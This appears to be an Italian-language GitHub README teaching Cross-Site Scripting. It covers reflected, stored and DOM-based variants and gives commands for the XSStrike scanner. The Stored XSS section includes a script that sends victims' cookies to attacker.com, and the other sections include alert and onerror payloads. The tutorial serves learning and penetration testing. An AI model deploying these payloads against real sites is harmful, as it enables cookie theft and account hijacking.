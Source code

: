 # Cross-Site Scripting (XSS)

## Indice

- [Descrizione](#descrizione)
- [Teoria](#teoria)
- [Reflected XSS (Non-Persistent XSS)](#reflected-xss)
- [Stored XSS (Persistent XSS)](#stored-xss)
- [Dom-Based XSS](#dom-xss)
- [XSS Strike (Check XSS automaticamente)](#xss-strike)
    - [Requisiti](#requisiti)
    - [Installazione](#installazione)
    - [Scansione con parametri GET](#scansione-get)
    - [Scansione con parametri POST](#scansione-post)



## Descrizione

Il Cross-Site Scripting (XSS) è una tipologia di vulnerabilità presente nelle applicazioni web che permette ad un attaccante di iniettare codice malevolo (di solito JavaScript) all'interno di pagine web visualizzate da altri utenti. Questo attacco sfrutta la fiducia che un utente ripone in un sito web, inducendolo ad eseguire del codice proveniente da una fonte apparentemente legittima.

## Teoria

Per comprendere a fondo le vulnerabilità XSS, è importante analizzare il meccanismo sottostante:

* L'iniezione: L'attaccante invia dati contenenti codice malevolo verso l'applicazione.

* La mancata sanitizzazione: L'applicazione non filtra adeguatamente i dati immessi, accettando input non sicuro.

* L'esecuzione: Il browser dell'utente esegue il codice malevolo incorporato nella risposta HTML, sfruttando la fiducia dell'utente nella fonte del contenuto.

Per proteggersi, le applicazioni devono validare, sanitizzare e codificare correttamente i dati in ingresso e in uscita. Tecniche come la Content Security Policy (CSP) possono aiutare a limitare l'impatto anche nel caso in cui si verifichi un'iniezione.

## Reflected XSS

Il Reflected XSS si verifica quando i dati iniettati dall'attaccante vengono immediatamente "riflessi" da una risposta del server, che li inserisce in pagine web senza la dovuta sanitizzazione. Questo tipo di attacco è solitamente realizzato tramite link appositamente creati, che, se cliccati dalla vittima, provocano l'esecuzione del codice malevolo.

#### Esempio pratico di Reflected XSS

* Immagina un sito web di ricerca con una URL del tipo:  
  
  `https://www.esempio.com/ricerca?query=test`
* Se il parametro "query" non viene correttamente sanitizzato, l'attaccante potrebbe inviare un URL come il seguente:  
  
  `https://www.esempio.com/ricerca?query=<script>alert('XSS')</script>`  
    
* Quando la vittima clicca sul link, il browser riceve la risposta contenente:  
  
  ```html
  <html>
  <head>
    <title>Risultati per
        <script>
            alert('XSS')
        </script>
    </title>
  </head>
  <body>
    <h1>Risultati per
        <script>
            alert('XSS')
        </script>
    </h1>
    <!-- Altri contenuti -->
  </body>
    </html>  
* Il codice <script>alert('XSS')</script> viene eseguito immediatamente sul browser della vittima, mostrando un pop-up con il messaggio "XSS", a dimostrazione del controllo che l'attaccante può ottenere sul contenuto visualizzato.

## Stored XSS

Lo Stored XSS si verifica quando i dati malevoli vengono salvati in modo permanente sul server, ad esempio all'interno di un database, e vengono successivamente presentati a numerosi utenti. Questo tipo di attacco è particolarmente pericoloso poiché l'iniezione non è limitata ad un singolo utente, ma si propaga alla base utenti.

#### Esempio pratico di Stored XSS

* Un utente vulnerabile invia un commento malevolo su un blog:  

  ```html
  <script>
    document.location='https://attacker.com/steal?cookie=' + document.cookie
  </script>
* Il commento viene salvato nel database del blog.
* Ogni volta che un altro utente visita l'articolo contenente il commento, il browser esegue il codice script iniettatogli.
* Ad esempio, la pagina potrebbe contenere:  

    ```html
    <div class="comment">
        <p>Ottimo articolo!</p>
    </div>

    <div class="comment">
        <p>
            <script>
                document.location='https://attacker.com/steal?cookie=' + document.cookie
            </script>
        </p>
    </div>
* Il codice viene eseguito automaticamente e invia i cookie della vittima al server dell’attaccante, permettendo il furto di dati sensibili e l’eventuale impersonificazione dell’utente.

## Dom XSS

Il DOM-Based XSS è una variante in cui l'iniezione e l'esecuzione del codice malevolo avvengono interamente lato client, ossia attraverso la manipolazione del Document Object Model (DOM) nel browser. In questo caso, il server non è direttamente coinvolto nella vulnerabilità, ma il codice JavaScript lato client elabora input non validati provenienti dalla URL o da altre sorgenti (come fragment identifier).

#### Esempio pratico di Dom-Based XSS

* Considera una pagina che legge il fragment identifier (la parte successiva al simbolo “#” nell'URL) e lo visualizza sul sito:  

    ```html
    <!DOCTYPE html>
    <html>
    <head>
    <title>Demo DOM XSS</title>
    </head>
    <body>
    <div id="content"></div>
    <script>
        // Il codice sottostante recupera il fragment identifier dall'URL
        var hash = window.location.hash.substring(1);
        // E lo inserisce nel DOM senza sanitizzazione
        document.getElementById('content').innerHTML = hash;
    </script>
    </body>
    </html>
* Se l'attaccante genera un URL come:  

    `https://www.esempio.com/demo#<img src=x onerror=alert('Dom XSS')>`
* All'apertura della pagina, il browser eseguirà il codice contenuto nel fragment:
    ```html
    <div id="content">
        <img src=x onerror=alert('Dom XSS')>
    </div>
* Questo provoca un errore nel caricamento dell’immagine, attivando l’evento onerror e l’esecuzione del comando JavaScript che mostra il pop-up “Dom XSS” o esegue altre azioni malevole.

## XSS Strike
XSS Strike è uno strumento creato per il penetration testing, finalizzato a sfruttare e analizzare vulnerabilità di tipo Cross-Site Scripting (XSS) in applicazioni web.

#### Requisiti  
- Python 3.4+
- git

#### Installazione
Per installare XSS Strike è sufficiente digitare questi comandi nel terminale
```bash
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
pip install -r requirements.txt --break-system-packages
```

### Scansione GET
Supponiamo che il sito https://targetsite.com abbia una pagina di ricerca vulnerabile:
- https://targetsite.com/search?query=xxx  

Il comando per testare il parametro “query” sarà:
- `python xssstrike.py --url "https://targetsite.com/search?query=xxx" --verbose`  

L'output mostrerà quali payload sono stati iniettati e se sono stati rilevati script eseguibili dal browser.

### Scansione POST
Considera un form di invio commenti su https://targetsite.com/comment che accetta il parametro “comment”. Per testare:
- `python xssstrike.py --url "https://targetsite.com/comment" --data "comment=xxx" --verbose`  

Il tool invierà richieste sostituendo “xxx” con payload XSS e verificherà eventuali esecuzioni.
